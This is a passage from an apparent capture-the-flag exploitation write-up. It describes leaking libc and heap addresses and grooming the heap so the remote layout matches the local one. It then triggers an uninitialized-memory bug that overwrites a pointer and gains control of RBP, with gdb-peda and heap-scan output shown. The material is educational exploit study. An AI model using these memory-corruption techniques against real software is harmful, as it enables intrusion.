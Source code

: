 ```
0x00007f454e6ce000 0x00007f454e6d0000 rw-p	/home/pgtp/libs/libc.so.6
gdb-peda$ dist 0x00007f454e329000 0x00007f454f719000
From 0x7f454e329000 to 0x7f454f719000: 20905984 bytes, 5226496 dwords
```
Using a `color` index of `8` for my second object successfully leaked that address.  It only leaks the first 5 bytes, however the upper 3 bytes of libraries are usually `0x00007f`, so we can assemble the full address ourselves.  We can use this same technique to get a heap leak.

Its worth mentioning that my leak did not initially show the same address when running on the remote instance.  When I did a heap scan (leaking various offsets from `object_config.vals`), the heap layout looked fairly different.  My hunch was that, with all the objects getting freed / reallocated, different chunks in different spots were getting reused.
To fix the problem, I allocated a bunch of objects before attempting to get a leak.  I verified that this worked by doing another heap scan, and comparing the results:
```bash
fzzyhd@fzzyhd: heap-scan.py             fzzyhd@fzzyhd: heap-scan.py remote
[*] heap @ 3 = 0x4242424242             [*] heap @ 3 = 0x4242424242
[*] heap @ 4 = 0x0                      [*] heap @ 4 = 0x0
[*] heap @ 5 = 0x51                     [*] heap @ 5 = 0x51
[*] heap @ 6 = 0x0                      [*] heap @ 6 = 0x0
[*] heap @ 7 = 0x0                      [*] heap @ 7 = 0x0
[*] heap @ 8 = 0xe7bbeb5000             [*] heap @ 8 = 0x67b44a000
[*] heap @ 9 = 0x14                     [*] heap @ 9 = 0x14
[*] heap @ 10 = 0x16f1460               [*] heap @ 10 = 0x2138480
[*] heap @ 11 = 0x0                     [*] heap @ 11 = 0x0
[*] heap @ 12 = 0x7ad5f58700            [*] heap @ 12 = 0xa346757700
[*] heap @ 13 = 0x14                    [*] heap @ 13 = 0x14
[*] heap @ 14 = 0xa                     [*] heap @ 14 = 0xa
```

Even though the addresses are different, the overall positioning / layout seems identical.

# Exploit
To trigger the uninitialized memory bug, we send in an object that sets `object_config.type` to `4` or `5`.  Note that the `group_size` then defaults to `8`.  I set `to_copy` to `8`, so I could write `64*"A"`s to whatever pointer happened to be on the stack, overwriting as much data as possible and increasing the chances of a crash.  After sending in that object, the program didn't immediately crash, but after sending in another object:
```
[----------------------------------registers-----------------------------------]
RAX: 0x400000065
RBX: 0x10d6a80 ('A' <repeats 64 times>)
RCX: 0x10c6ac0 --> 0x1009ea0 --> 0x0
RDX: 0x404b7a (<+[PGPObjectV2 apiVersion]>:	push   rbp)
RSI: 0x60ad20 --> 0x400000065
RDI: 0x10d6a80 ('A' <repeats 64 times>)
RBP: 0x4141414141414141 ('AAAAAAAA')
RSP: 0x7ffc53d19810 --> 0x8
RIP: 0x7ff56a863bf9 (<objc_msg_lookup+25>:	mov    rdx,QWORD PTR [rbp+0x40])
R8 : 0xb ('\x0b')
R9 : 0x1009160 --> 0x0
R10: 0x60a8f1 ("PGPObjectV2")
R11: 0x246
R12: 0x7ff56b1a9080 --> 0x7ff56b1a8e00 --> 0x7ff56aa6df80 (0x00007ff56aa6df80)
R13: 0x40156b (<-[CCHBinaryDataReader initWithData:options:]>:	push   rbp)
R14: 0x0
R15: 0x0
EFLAGS: 0x10202 (carry parity adjust zero sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x7ff56a863bef <objc_msg_lookup+15>:	sub    rsp,0x8
   0x7ff56a863bf3 <objc_msg_lookup+19>:	mov    rbp,QWORD PTR [rdi]
   0x7ff56a863bf6 <objc_msg_lookup+22>:	mov    rax,QWORD PTR [rsi]
=> 0x7ff56a863bf9 <objc_msg_lookup+25>:	mov    rdx,QWORD PTR [rbp+0x40]
```